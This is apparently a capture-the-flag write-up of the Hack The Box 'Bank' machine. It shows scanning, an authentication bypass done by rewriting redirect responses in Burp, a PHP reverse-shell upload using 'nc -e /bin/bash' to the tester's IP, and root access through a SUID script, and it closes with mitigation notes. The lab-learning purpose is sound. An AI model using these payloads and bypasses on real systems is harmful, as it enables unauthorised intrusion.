






# Bank

```
kali@kali:~/htb/Bank$ sudo nmap -sV -sC 10.129.29.200 
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-24 09:33 EST
Nmap scan report for 10.129.29.200
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.49 seconds
```

Ok, So we got 3 different ports here. I’m going to do a basic check on each to see what we find.

The webpage is an Apache2 Ubuntu Default page. No real links, I throw on Dirbuster and check out the other ports.


```
kali@kali:~/htb/Bank$ searchsploit OpenSSH 6.6.1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                                                                      | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                                                                | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                                                                          | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                                                                      | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                                                                          | linux/remote/45939.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Ok, so there are some enumeration possibilities here.

```
kali@kali:~/htb/Bank$ searchsploit ISC BIND
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ISC BIND (Linux/BSD) - Remote Buffer Overflow (1)                                                                                                                             | linux/remote/19111.c
ISC BIND (Multiple OSes) - Remote Buffer Overflow (2)                                                                                                                         | linux/remote/19112.c
ISC BIND 4.9.7 -T1B - named SIGINT / SIGIOT Symlink                                                                                                                           | linux/local/19072.txt
ISC BIND 4.9.7/8.x - Traffic Amplification and NS Route Discovery                                                                                                             | multiple/remote/19749.txt
ISC BIND 8 - Remote Cache Poisoning (1)                                                                                                                                       | linux/remote/30535.pl
ISC BIND 8 - Remote Cache Poisoning (2)                                                                                                                                       | linux/remote/30536.pl
ISC BIND 8.1 - Host Remote Buffer Overflow                                                                                                                                    | unix/remote/20374.c
ISC BIND 8.2.2 / IRIX 6.5.17 / Solaris 7.0 - NXT Overflow / Denial of Service                                                                                                 | unix/dos/19615.c
ISC BIND 8.2.2-P5 - Denial of Service                                                                                                                                         | linux/dos/20388.txt
ISC BIND 8.2.x - 'TSIG' Remote Stack Overflow (1)                                                                                                                             | linux/remote/277.c
ISC BIND 8.2.x - 'TSIG' Remote Stack Overflow (2)                                                                                                                             | linux/remote/279.c
ISC BIND 8.2.x - 'TSIG' Remote Stack Overflow (3)                                                                                                                             | solaris/remote/280.c
ISC BIND 8.2.x - 'TSIG' Remote Stack Overflow (4)                                                                                                                             | linux/remote/282.c
ISC BIND 8.3.x - OPT Record Large UDP Denial of Service                                                                                                                       | linux/dos/22011.c
ISC BIND 9 - Denial of Service                                                                                                                                                | multiple/dos/40453.py
ISC BIND 9 - Remote Dynamic Update Message Denial of Service (PoC)                                                                                                            | multiple/dos/9300.c
ISC BIND 9 - TKEY (PoC)                                                                                                                                                       | multiple/dos/37721.c
ISC BIND 9 - TKEY Remote Denial of Service (PoC)                                                                                                                              | multiple/dos/37723.py
Microsoft Windows Kernel - 'win32k!NtQueryCompositionSurfaceBinding' Stack Memory Disclosure                                                                                  | windows/dos/42750.cpp
Zabbix 2.0.5 - Cleartext ldap_bind_Password Password Disclosure (Metasploit)                                                                                                  | php/webapps/36157.rb
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
kali@kali:~/htb/Bank$ 
```
Hmm, nothing stands out. Maybe the Remote buffer overflow could be working on this version, but I’ll have to do some research.

```
kali@kali:~/htb/Bank$ searchsploit Apache 2.4.7
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                                                                               | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                                                                             | php/remote/29316.py
Apache 2.4.7 + PHP 7.0.2 - 'openssl_seal()' Uninitialized Memory Code Execution                                                                                               | php/remote/40142.php
Apache 2.4.7 mod_status - Scoreboard Handling Race Condition                                                                                                                  | linux/dos/34133.txt
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                                                                              | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                                                                           | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                                                                          | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                                                                    | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                                                                    | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                                                                           | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                                                                             | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                                                                           | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                                                                     | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                                  | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                                  | jsp/webapps/42966.py
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                                                                                  | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution                                                                                              | linux/remote/34.pl
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results 
```
Checking the apache version, we do have some interesting exploits. Uninitialized Memory code execution. 

My dirbuster has not returned anything. And I haven't really found any bang-on exploits. I’m gonna see if we can find some subdomains.

So Im gonna edit my hosts file:

`sudo vim /etc/hosts/`

And add `10.129.29.200   bank.htb` to my list of known hosts.

I go to http://bank.htb/ to check that it’s working. And I get redirected to a login page!



I guess I’m starting up dirbuster again. This time on bank.htb. Let’s see if we can’t find something juicy here. This seems like a much more likely attack path than those exploits earlier.

It finds an /uploads/ directory, although access is forbidden. Something to remember.

It also finds http://bank.htb/inc/ which includes user.php. I hoped there was some login information, but alas it’s empty.



We have three pages. Index, login  and support. Although both index and support redirects to login. But we can see that they are larger. So let's see if we can’t find something interesting.


I open burpsuite to take a look.

Index.php has some transaction info and some card info. 

But support.php has some input forms, along with a file upload. And a debug line:

```
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```

I go to burpsuite, proxy->options, and tick the Intercept responses based on the following rules box under the Intercept server responses header.

I can now go to http://bank.htbsupport.php again.

Forward the request:



And then change the `HTTP/1.1 302 Found` to `HTTP/1.1 200 OK` and forward it



And we get the support page without being redirected to the login. It’s fair to assume that the uploaded files will end up in the uploads folder. But I am worried we might not have access to them. 



I create a php reverse shell with the .htb extension

```
<?php
        shell_exec('nc -e /bin/bash 10.10.14.21 1337');
?>
```

This will simply just connect back to us on port 1337. 

And btw, to make things easier, we can add a replacement rule in burpsuite.

So for all Response headers, `302 Found` becomes `200 OK` so we won't have to deal with redirects.



And we can see we even get a link to our file. So let's set up our listener and try it:

```
kali@kali:~/htb/Bank$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.29.200 41762
whoami
www-data
```

Sick, we got access. I cd back one and find a file named bankreports.txt.


```
cat bankreports.txt
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
===Users===
```
And we can actually access the user flag with the www-data account. 

I also run `script /dev/null -c bash` to create a Pseudo terminal(pty) to use. 

But you can also use `python -c 'import pty; pty.spawn("/bin/bash")'`
or `python3 -c 'import pty; pty.spawn("/bin/bash")'` (And some more here: https://netsec.ws/?p=337 )

I’m then gonna elevate this shell to have some more functionalities: Check this link out if interested:
https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/

So I run around in the box a bit until I discover emergency in the /htb/ folder:

```
www-data@bank:/var/backups$ cat shadow.bak 
cat: shadow.bak: Permission denied
www-data@bank:/var/backups$ cd ..
www-data@bank:/var$ ls
backups  crash  lib    lock  mail  run    tmp
cache    htb    local  log   opt   spool  www
www-data@bank:/var$ cd htb/
www-data@bank:/var/htb$ ls
bin  emergency
www-data@bank:/var/htb$ cd emergency 
bash: cd: emergency: Not a directory
www-data@bank:/var/htb$ ls
bin  emergency
www-data@bank:/var/htb$ cat emergency
#!/usr/bin/python
import os, sys

def close():
        print "Bye"
        sys.exit()

def getroot():
        try:
                print "Popping up root shell..";
                os.system("/var/htb/bin/emergency")
                close()
        except:
                sys.exit()

q1 = raw_input("[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: ");

if q1 == "y" or q1 == "yes":
        getroot()
else:
        close()
www-data@bank:/var/htb$ ./emergency 
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: y
Popping up root shell..
# whoami
root
# 
```

Well that’s convenient :)

## Comparing myself to the official writeup:

The official writeup shows the intended and an unintended method. The intended method is to dirbuster to find a balance-transfer directory which contains encrypted files of user information.

One of the files is half the size of the others, the cause is failed encryption. Therefore the credentials are plaintext. 

They use this to log in in order to get access to the support.php page. 

The unintended way is how I did it. As I did not find the balance-transfer directory with dirbuster. I probably chose the wrong wordlist.

They use linEnum to enumerate the linux machine. And find that the emergency file is a non-standard SUID file. Another way to do this would be with the command ` find / -perm -4000 2>/dev/null`  Where find / -perm -4000 finds all files with SUID, and 2>/dev/null removes errors.

## How to stop this exploit:

The support.php page should not be accessible without logging in. A simple redirect does not really fix anything. The uploaded file should also not be accessible by the user that uploaded it. They do not need to have access to it, therefore they should not.

The emergency shell is very easy to fix: 

`shred -zun 10 -v emergency` just delete that abomination of a security hole. 
